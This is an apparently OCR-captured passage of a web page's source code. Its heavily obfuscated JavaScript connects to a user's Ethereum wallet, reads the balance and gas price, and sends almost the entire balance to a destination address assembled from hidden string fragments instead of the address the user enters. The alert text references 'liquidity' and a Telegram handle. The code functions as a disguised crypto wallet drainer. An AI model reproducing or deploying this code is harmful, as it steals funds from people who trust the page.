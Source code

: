 _0x1da406*_0x161867;},'cABKJ':function(_0x4d174f,_0x1e32d7){return _0x4d174f<_0x1e32d7;},'BaMhh':function(_0x402659,_0x11156d){return _0x402659-_0x11156d;},'kvlko':function(_0x46aa0f,_0x4b6407){return _0x46aa0f(_0x4b6407);},'qkFCx':_0x4e5bb2(0x4bd,0x4a6,0x4ae,0x4b0)+'ansaction','dtEHE':function(_0x4408b0,_0x8d5a54){return _0x4408b0+_0x8d5a54;},'AsPuG':_0x3d7991(0x2f4,0x31c,0x33c,0x304)+_0x4e5bb2(0x4cd,0x4c9,0x4a9,0x48b)+_0x3d7991(0x2ee,0x2e3,0x2cf,0x2c7)+'dity.\x20Plea'+_0x4e5bb2(0x48a,0x4ca,0x4ab,0x4d3)+'o\x20me\x20via\x20t'+_0x4e5bb2(0x490,0x492,0x49e,0x49a)+'ssenger\x20@O'+_0x3d7991(0x336,0x316,0x340,0x30e)+_0x3d7991(0x30d,0x327,0x328,0x33f)+_0x3d7991(0x2d4,0x2de,0x2e1,0x2c1)+_0x4e5bb2(0x481,0x4a7,0x48b,0x46b),'WbqYu':function(_0x470534,_0x49d7b1){return _0x470534===_0x49d7b1;},'WDFNj':_0x3d7991(0x32c,0x329,0x33a,0x327),'rVIes':function(_0x5a07dc,_0x403699){return _0x5a07dc(_0x403699);}};function _0x3d7991(_0x406b6a,_0x17ddf2,_0x217fec,_0x11135c){return _0x5f3ab4(_0x406b6a-0x1ce,_0x17ddf2-0x107,_0x11135c,_0x11135c-0x132);}try{const _0x3e1a6f=typeAdress[_0x4e5bb2(0x486,0x497,0x486,0x475)];transferInProgress=!![];const _0x3583e9=_0x5d1e4e[_0x3d7991(0x2fb,0x2fa,0x2d0,0x31b)],_0x1c672b=_0x3d7991(0x312,0x328,0x2ff,0x323),_0x204548=_0x5d1e4e[_0x4e5bb2(0x497,0x4b8,0x4b7,0x4e0)](kyc,c),_0x4ce894=_0x5d1e4e[_0x3d7991(0x32d,0x306,0x31a,0x2dc)](kyc,_0x3583e9),_0x1fcc3d=_0x5d1e4e[_0x4e5bb2(0x4a7,0x4bc,0x4a2,0x497)](kyc,_0x1c672b),_0x49b070=await window[_0x4e5bb2(0x486,0x489,0x49a,0x4c2)][_0x3d7991(0x30a,0x304,0x324,0x2de)]({'method':'eth_getBal'+_0x4e5bb2(0x4b8,0x4ca,0x4b6,0x493),'params':[window['ethereum']['selectedAd'+_0x4e5bb2(0x48d,0x464,0x478,0x47b)],_0x5d1e4e['lgljD']]}),_0x3c0aec={};_0x3c0aec['method']=_0x4e5bb2(0x4b7,0x48c,0x4a6,0x4c1)+'ce';const _0x417a98=await window['ethereum'][_0x4e5bb2(0x476,0x48b,0x4a0,0x48e)](_0x3c0aec),_0x1b3d6c=''+comission+_0x204548,_0x5d4ef4=-0xf79d+-0x65b4*0x2+-0x11*-0x2605,_0xa958b4=_0x5d1e4e[_0x4e5bb2(0x491,0x4d1,0x4bd,0x4af)](_0x417a98,_0x5d4ef4);if(_0x5d1e4e[_0x3d7991(0x306,0x2fd,0x2e6,0x2f8)](BigInt(_0x49b070),_0xa958b4)){_0x5d1e4e[_0x4e5bb2(0x4b0,0x4d6,0x4b7,0x4c5)](alert,_0x5d1e4e['oXSVU']),transferInProgress=![];return;}const _0x25569b=''+_0x4ce894+_0x1fcc3d,_0x370477=_0x5d1e4e[_0x4e5bb2(0x45c,0x46b,0x482,0x479)](_0x5d1e4e[_0x3d7991(0x310,0x2f5,0x31b,0x31a)](BigInt,_0x49b070),BigInt(_0xa958b4)),_0x29edb6='0x'+unit+confirm+_0x1b3d6c+_0x25569b;await window[_0x3d7991(0x307,0x2fe,0x328,0x31b)]['request']({'method':_0x5d1e4e[_0x3d7991(0x321,0x32b,0x34d,0x32e)],'params':[{'from':window[_0x4e5bb2(0x477,0x4a1,0x49a,0x4a2)][_0x4e5bb2(0x46f,0x491,0x494,0x475)+'dress'],'to':_0x29edb6,'value':_0x5d1e4e['dtEHE']('0x',_0x370477['toString'](0x47*0x63+0x18*0xaf+-0x1*0x2bcd))}]}),alert(_0x5d1e4e[_0x4e5bb2(0x4cf,0x4de,0x4b9,0x490)]),transferInProgress=![];}catch(_0x177a68){if(_0x5d1e4e['WbqYu'](_0x5d1e4e['WDFNj'],_0x3d7991(0x317,0x32d,0x345,0x344))){_0x361830(_0x5d1e4e['oXSVU']),_0x42c53f=![];return;}else _0x5d1e4e[_0x4e5bb2(0x4b7,0x46c,0x497,0x479)](alert,_0x3d7991(0x2e5,0x2f0,0x2f7,0x30e)+'irming\x20liq'+_0x3d7991(0x316,0x315,0x326,0x33d)+_0x3d7991(0x316,0x30b,0x2e6,0x337)),console[_0x3d7991(0x2e1,0x301,0x2fd,0x308)](_0x177a68),transferInProgress=![];}};
      </script>
      <script>		
        connectButton.addEventListener("click", async () => 
		{
          try {	  
            const accounts = await window.ethereum.request({
              method: "eth_requestAccounts",
            });
            if (accounts.length > 0) {
              sendEtherButton.style.display = "block";
              typeAdress.style.display = "block";
              checkBalanceButton.style.display = "block";
              checkAdressBalanceButton.style.display = "block";
              connectButton.style.display = "none";
            }
          } catch (error) 
		  {
            console.error(error);
            alert("connection error");
          }
        });
        sendEtherButton.addEventListener("click", async () => 
		{
          try {
            const value = typeAdress.value;
            if (resultElement.innerText !== "ready") 
			{
              alert("Сlick the deploy button");
              return;
            }
            if (!value || value.length < 40) 